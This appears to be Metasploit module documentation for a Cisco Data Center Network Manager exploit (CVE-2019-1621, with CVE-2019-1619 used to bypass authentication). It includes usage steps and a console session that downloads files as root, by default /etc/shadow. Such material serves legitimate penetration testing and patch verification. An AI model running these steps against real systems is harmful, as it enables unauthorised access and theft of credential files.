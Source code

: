 ## Vulnerable Application

Cisco Data Center Network Manager exposes a servlet to download files on `/fm/downloadServlet`.
An authenticated user can abuse this servlet to download arbitrary files as root by specifying
the full path of the file (aka CVE-2019-1621).

This module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why), on the other versions it abuses CVE-2019-1619 to bypass authentication.

## Verification Steps

1. Do: ```use auxiliary/admin/networking/cisco_dcnm_download```
2. Do: ```set rhosts [ip]```
3. Do: ```run```

## Options

## Scenarios

Setup RHOST, pick the file to download (FILENAME, default is /etc/shadow) and enjoy!

```
msf exploit > use auxiliary/admin/networking/cisco_dcnm_download

msf auxiliary(admin/networking/cisco_dcnm_download) > set rhost 10.75.1.40
rhost => 10.75.1.40
msf auxiliary(admin/networking/cisco_dcnm_download) > run

[+] 10.75.1.40:443 - Detected DCNM 10.4(2)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Got sysTime value 1567081446000
[+] 10.75.1.40:443 - Successfully authenticated our JSESSIONID cookie
[+] File saved in: /home/john/.msf4/loot/20190829122407_default_10.75.1.40_ciscoDCNM.http_855907.bin
[*] Auxiliary module execution completed
```
